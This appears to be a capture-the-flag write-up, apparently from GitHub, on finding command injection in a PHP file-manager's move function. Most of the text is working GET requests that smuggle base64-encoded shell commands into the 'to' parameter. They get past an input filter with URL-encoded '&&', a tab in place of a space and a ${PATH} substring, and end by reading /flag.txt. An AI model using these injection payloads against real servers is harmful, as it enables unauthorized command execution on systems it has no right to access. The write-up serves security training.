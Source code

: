 GET /index.php?to=&view=51459716.txt&quickView=1 (View)
![image](https://github.com/user-attachments/assets/bdc65f98-b252-47f3-a07b-1515a7ef36d5)

GET /index.php?to=&from=51459716.txt (Copy to)
![image](https://github.com/user-attachments/assets/19de108f-c090-464c-823e-9566108aaa5b)

GET /51459716.txt (Direct Link)
![image](https://github.com/user-attachments/assets/b83b42fe-3c22-450e-8034-b638a8cc5615)

GET /index.php?to=&dl=51459716.txt (Download)
![image](https://github.com/user-attachments/assets/b2b95793-2c9b-42cd-ace5-1cf5ae02dba7)

Advance Search
![image](https://github.com/user-attachments/assets/6873e2e7-139e-45b3-ac5b-dab7f9a283d1)

Checked with whoami in to
![image](https://github.com/user-attachments/assets/2d4c5af4-8740-4b8d-9aeb-bd4ef6eb49d6)


Checked with whoami in from
![image](https://github.com/user-attachments/assets/26105475-ad8d-415e-bdf3-57f711723319)

Both these gave Malicious request denied.

![image](https://github.com/user-attachments/assets/2b26095f-76c4-4fc0-9f17-7af93f1fccb6)

![image](https://github.com/user-attachments/assets/c3e50e94-e288-420d-b846-8d04959c3554)

I discovered that the operator %26%26 is accepted. Based on the error message, it’s clear the server is using the mv command.
![image](https://github.com/user-attachments/assets/0099502c-8cad-4002-b6e5-7d93fd12c090)

Again doing GET /index.php?to=&from=51459716.txt%26%26whoami&finish=1&move=1;whoami gave me the same error

![image](https://github.com/user-attachments/assets/e8fec73e-719a-41f5-9bec-e10ae712f2cd)

GET /index.php?to=&from=51459716.txt%26%26bash<<<$(base64%09-d<<<"d2hvYW1p")&finish=1&move=1;whoami

![image](https://github.com/user-attachments/assets/ef55853b-7647-4ee1-9a0b-27ff212b06cb)

GET /index.php?to=tmp%26%26bash<<<$(base64%09-d<<<"d2hvYW1p")&from=51459716.txt&finish=1&move=1;whoami
![image](https://github.com/user-attachments/assets/39cdbdde-f258-4a1a-8644-87423aa8e6dc)

GET /index.php?to=tmp%26%26bash<<<$(base64%09-d<<<"d2hvYW1p")&from=605311066.txt&finish=1&move=1
![image](https://github.com/user-attachments/assets/528ca51f-943f-4ce8-b3e8-867de6894acf)

echo -n "ls -la" | base64                   
bHMgLWxh

I am regularly changing file names because the previous file gets removed while trying to move 
GET /index.php?to=tmp%26%26bash<<<$(base64%09-d<<<"bHMgLWxh")&from=787113764.txt&finish=1&move=1
![image](https://github.com/user-attachments/assets/8ca9801c-e87b-4e08-b91c-7e0109704609)

echo -n "cat ${PATH:0:1}flag.txt" | base64
Y2F0IC9mbGFnLnR4dA==

GET /index.php?to=tmp%26%26bash<<<$(base64%09-d<<<"Y2F0IC9mbGFnLnR4dA==")&from=877915113.txt&finish=1&move=1
![image](https://github.com/user-attachments/assets/aac33350-f1eb-404a-8826-eb44861d12cd)

